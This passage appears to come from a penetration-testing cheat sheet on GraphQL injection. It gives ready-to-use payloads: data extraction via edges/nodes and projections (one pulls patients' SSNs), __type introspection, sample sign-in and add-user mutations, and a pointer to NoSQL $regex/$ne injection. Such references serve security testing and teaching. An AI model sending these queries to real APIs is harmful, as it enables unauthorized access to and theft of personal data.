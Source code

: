
### Extract data

```js
example.com/graphql?query={TYPE_1{FIELD_1,FIELD_2}}
```

![HTB Help - GraphQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/Images/htb-help.png?raw=true)



### Extract data using edges/nodes

```json
{
  "query": "query {
    teams{
      total_count,edges{
        node{
          id,_id,about,handle,state
        }
      }
    }
  }"
} 
```

### Extract data using projections

:warning: Don’t forget to escape the " inside the **options**.

```json
{doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}
```


### Enumerate the types' definition 

Enumerate the definition of interesting types using the following GraphQL query, replacing "User" with the chosen type

```javascript
{__type (name: "User") {name fields{name type{name kind ofType{name kind}}}}}
```

### Use mutations

Mutations work like function, you can use them to interact with the GraphQL.

```javascript
# mutation{signIn(login:"Admin", password:"secretp@ssw0rd"){token}}
# mutation{addUser(id:"1", name:"Dan Abramov", email:"dan@dan.com") {id name email}}
```

### NOSQL injection

Use `$regex`, `$ne` from []() inside a `search` parameter.
